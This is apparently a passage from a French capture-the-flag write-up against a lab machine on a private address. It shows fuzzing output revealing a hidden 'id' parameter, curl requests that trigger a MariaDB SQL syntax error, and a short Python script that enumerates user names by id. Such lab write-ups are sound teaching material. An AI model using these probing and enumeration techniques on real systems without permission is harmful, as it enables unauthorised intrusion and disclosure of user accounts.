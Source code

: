 ```console
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 4393
________________________________________________

2057&id                 [Status: 200, Size: 4541, Words: 116, Lines: 85]
:: Progress: [14344390/14344390] :: Job [1/1] :: 2928 req/sec :: Duration: [2:52:46] :: Errors: 861 ::
```

C'est surprenant, on obtient un message différent avec la valeur `2057&id` qui comme on s'en doute va rajouter un paramètre `id` à l'URL.

Si je rajoute ce paramètre j'obtiens l'erreur suivante :

```console
$ curl -s "http://192.168.56.223/admin/?username=admin&pass=nawak&id" | head -1
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1
```

C'est donc un pur cas de chance : on a découvert un paramètre non documenté sans chercher spécifiquement à le découvrir.

Il s'avère aussi que si on passe un numéro d'utilisateur valide, le nom correspondant est affiché :

```console
$ curl -s "http://192.168.56.223/admin/?id=1" | head -1
jack
```

J'ai écrit un script pour les énumérer :

```python
import requests

sess = requests.session()
for i in range(1000):
    resp = sess.get(f"http://192.168.56.223/admin/?id={i}")
    user = resp.text.splitlines()[0].strip()
    if user:
        print(i, user)
```

J'obtiens alors :

```console
$ python3 enumerate.py 
1 jack
2 ceo
3 brad
4 expenses
5 julia
6 mike
7 adrian
8 john
9 admin
10 alex
```
